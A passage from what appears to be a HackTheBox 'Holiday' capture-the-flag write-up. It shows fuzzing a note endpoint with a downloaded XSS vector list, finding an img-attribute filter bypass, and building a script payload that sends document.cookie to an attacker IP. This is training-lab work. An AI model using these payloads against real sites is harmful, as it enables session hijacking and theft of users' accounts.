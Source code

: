 So I tried the same way with other [list](https://gist.githubusercontent.com/JohannesHoppe/5612274/raw/60016bccbfe894dcd61a6be658a4469e403527de/666_lines_of_XSS_vectors.html)

```sh
wget https://gist.githubusercontent.com/JohannesHoppe/5612274/raw/60016bccbfe894dcd61a6be658a4469e403527de/666_lines_of_XSS_vectors.html
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2010:26:14.png)

And we wfuzz it again

```sh
wfuzz -H "User-Agent: Linux" -b 'connect.sid=s%3A80697420-353b-11ec-8f58-294d67337c3d.dbsOBPzQOxyCbeCGja%2FyPOvUNrk4sPVNcHm%2Fob3zVYA' -z file,666_lines_of_XSS_vectors.html -d "uuid=8dd841ff-3f44-4f2b-9324-
9a833e2c6b65&body=FUZZ" --hc 200 http://10.10.10.25:8000/agent/addNote
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2010:28:21.png)

One of this list become very good for us

```
<img src="x` `<script>javascript:alert(1)</script>"` `>
```

Which showed me:

```
<img src=x``<script>javascript:alert(1)</script>>
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2010:29:51.png)

1 - Quotes wrapping attribute content were stripped.

2 - Any white space inside the attribute was removed.

3 - < and > were not being escaped inside the attribute.

I could use this vulnerability to take advantage of the scripts tag

```
<img src="/><script></script>"/>
```

Will be, and will be renderized as script, awesome!

```
<img src=/><script></script>/>
```

So following it, this code must be executed

```
<img src="/><script>new Image().src='http://10.10.14.20/cookie='+document.cookie;</script>">
```

So we try to send it to the server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:48:12.png)
